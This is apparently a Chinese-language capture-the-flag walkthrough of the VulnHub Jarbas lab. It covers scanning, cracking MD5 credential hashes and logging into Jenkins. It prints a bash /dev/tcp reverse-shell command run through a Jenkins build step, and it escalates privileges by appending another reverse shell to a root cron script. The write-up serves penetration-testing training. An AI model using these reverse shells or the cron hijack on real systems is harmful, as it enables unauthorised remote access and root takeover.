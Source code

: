 jarbas 渗透
===

>   参考视频: [红队笔记](https://www.bilibili.com/video/BV1jm4y1A7Tm)

<iframe src="//player.bilibili.com/player.html?isOutside=true&aid=688976487&bvid=BV1jm4y1A7Tm&cid=858665055&p=1" scrolling="no"  frameborder="no" framespacing="0" allowfullscreen="true"></iframe>

靶机下载: [vulnhub](https://download.vulnhub.com/jarbas/Jarbas.zip)

### Nmap 扫描

#### 主机发现

先用 Nmap 扫描靶机, 扫出靶机 ip: `192.168.170.137`

```bash
sudo nmap -sn 192.168.170.0/24
```

---

![1.png](1.png)

#### 漏洞扫描

先寻找开放的端口:

```bash
sudo nmap --min-rate 10000 -p- 192.168.170.137
```

---

![2.png](2.png)

接下来对这些端口做 TCP, UDP 和漏洞脚本扫描:

```bash
sudo nmap -sT -sV -O -p22,80,3306,8080 192.168.170.137
sudo nmap -sU -p22,80,3306,8080 192.168.170.137
sudo nmap --script=vuln -p22,80,3306,8080 192.168.170.137
```

---

![3-1.png](3-1.png)

---
![3-2.png](3-2.png)

---
![3-3.png](3-3.png)

---

### 收集信息

回显 80 端口存在可能的 CSRF 漏洞和 SQL 注入, 3306 端口没有扫描到漏洞。8080 端口存在枚举, 泄露信息。

访问 `192.168.170.137` 和 `192.168.170.137:8080` 分别显示的是网站的首页和后台登录页面。这个**登录页面**很可能就是管理员账号登录界面。

![4.png](4.png)

接着根据刚刚的回显访问 `192.168.170.137:8080/robots.txt` , 显示`"we don't want robots to click "build" links. "`

![5.png](5.png)

### 目录爆破

用  dirb, gobuster 进行目录爆破:

```bash
sudo dirb http://192.168.170.137
sudo gobuster dir -u http://192.168.170.137 --wordlist=/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```

---

![6-1.png](6-1.png)

![6-2.png](6-2.png)

dirb 发现了 `cgi-bin` 文件夹和 index.html 文件, gobuster 没有发现文件, 尝试一下用 `-x` 指令指定扩展名, 注意到刚刚 nmap 的回显中有提到 **`user.php`**, 猜测网站的技术栈, 这里添加 `html` 和 `php`:

```bash
sudo gobuster dir -u http://192.168.170.137 --wordlist=/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,html
```

![6-3.png](6-3.png)

访问一下 `http://192.168.170.137/index.html` , 发现就是网站主页; 再访问 `http://192.168.170.137/access.html`:

![7.png](7.png)

这里出现的三个字符串非常像 **MD5** 哈希, 随便到一个[工具网站](https://www.cmd5.com/)到进行碰撞 (也可以先在 kali 上用 `hash-identifier` 猜测一下哈希类型), 得到明文分别是: `italia99`, `marianna`, `vipsu`。

也就是全文为:
-   tiago: italia99
-   trindade: marianna
-   eder: vipsu

结合之前的信息, 这一段文字很有可能是登录名和口令。回到登录界面, 挨个试试登录, 发现 `eder: vipsu` 可以直接登录:

![8.png](8.png)

### Jenkins 利用

登录后可以直接看见, 靶机网站使用的是 Jenkins 服务器。攻击面主要在 `系统管理` 的项目中。

>   Jenkins 是一种开源的自动化服务器，主要用于实现软件开发中的持续集成和持续交付/部署。它通过自动化构建、测试和部署流程，帮助开发团队高效协作，提升软件交付速度和质量。

接下来新建一个项目, 

![9-1.png](9-1.png)

靶机是 Linux 服务器, 这里在构建项目时选择 `Execute Shell`, 注意这里填的是kali 的地址, 方便在 kali 中进行监听:

![9-2.png](9-2.png)

---

```shell
/bin/bash -i >& /dev/tcp/192.168.170.135/4444 0>&1
```

设置完毕后保存, 在 kali 中开启监听:

```bash
sudo nc -lvnp 4444
```

接下来, 在 Jarbas 服务器上构建项目, 就会执行 shell。此时 kali 上已经收到了反弹 shell。先收集一下信息。

![9-3.png](9-3.png)

尝试一下查看本机用户, 发现可用:

![9-4.png](9-4.png)

这里能正常登录的账号应该只有 sync 和 eder, sync 应该是数据同步服务的账户, 是一个系统内置的**低权限**账户，一般没有sudo权限, 也不能访问敏感文件, 于是直接考虑 eder 这个账户。

>  sync 用户的默认用途:
>-  核心功能：
>sync 账户的主要职责是触发 内存数据同步到磁盘（强制刷新缓存），防止系统崩溃时数据丢失。对应的命令是 `/bin/sync`（或 `/sbin/sync`），通常由系统自动调用，不需要人工登录。
>-  典型权限配置：
>```bash
># /etc/passwd 中的典型配置
>sync:x:4:65534:sync:/bin:/bin/sync
>```

先试一下 `cat /etc/shadow`, 无权限; 再试试查看定时任务 `cat etc/crontab`, 有回显, 发现系统每五分钟就会执行 `/etc/script/CleaningScript.sh` 这个脚本。

![9-5.png](9-5.png)

看看这个脚本的内容:

![9-6.png](9-6.png)

尝试一下, 先在 kali 上开启对应端口的监听, 再把开启 bash 的代码追加在这段定时执行的代码后面:

``` bash
sudo nc -lvnp 4443
```

```bash
echo "/bin/bash -i >& /dev/tcp/192.168.170.135/4443 0>&1" >> /etc/script/CleaningScript.sh
```

五分钟后, kali 上收到了回显:

![10.png](10.png)

到这里已经完成了提权, 接下来很容易就能拿到 flag, 大功告成!

![11.png](11.png)

### 总结